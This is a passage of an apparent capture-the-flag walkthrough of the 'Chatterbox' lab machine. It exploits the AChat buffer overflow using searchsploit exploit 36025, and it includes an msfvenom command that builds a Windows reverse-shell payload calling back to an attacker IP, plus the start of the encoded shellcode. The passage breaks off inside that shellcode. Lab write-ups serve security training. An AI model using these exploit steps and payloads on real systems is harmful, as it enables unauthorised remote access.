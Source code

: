 Doing a quick google search on the service tells us that AChat is a software that enables you to chat on your local network. It can also be used to share and send files/images to other users.

Now that we know what it is, let’s run searchsploit on it.

![](../images/max/1174/1*-bEFqyrr_dYyPmeSzTn68A.png)

It’s vulnerable to a remote buffer overflow and there is both apython and metasploit exploit for it. We will of course work with the non-metasploit solution.

Copy the python script to your current directory.

```text
searchsploit -m 36025
```

Looking at the exploit code we make note of the following things:

* It looks like your classic stack buffer overflow that allows you to overflow the buffer and include malicious shell code that will get executed on the box.
* The exploit author was nice enough to give us the msfvenom command that generates the malicious payload \(_‘buf’_ variable\) including the bad characters to avoid. This makes our life so much easier! The command simply spawns the _calc.exe_ program on the target machine. So we’ll have to change the command to send a reverse shell back to our attack machine.
* We also need to change the _server\_address_ to that of the IP address of Chatterbox.
* There seems to be a length limit of 1152 bytes on the payload. Anything that exceeds that will probably not work. We’ll keep that in mind when using msfvenom to generate our reverse shell.

## Initial Foothold <a id="c189"></a>

Use msfvenom to generate the reverse shell payload.

```text
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=1234 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

We get back the following result.

```text
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 774 (iteration=0)
x86/unicode_mixed chosen with final size 774
Payload size: 774 bytes
Final size of python file: 3767 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += b"\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += b"\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
```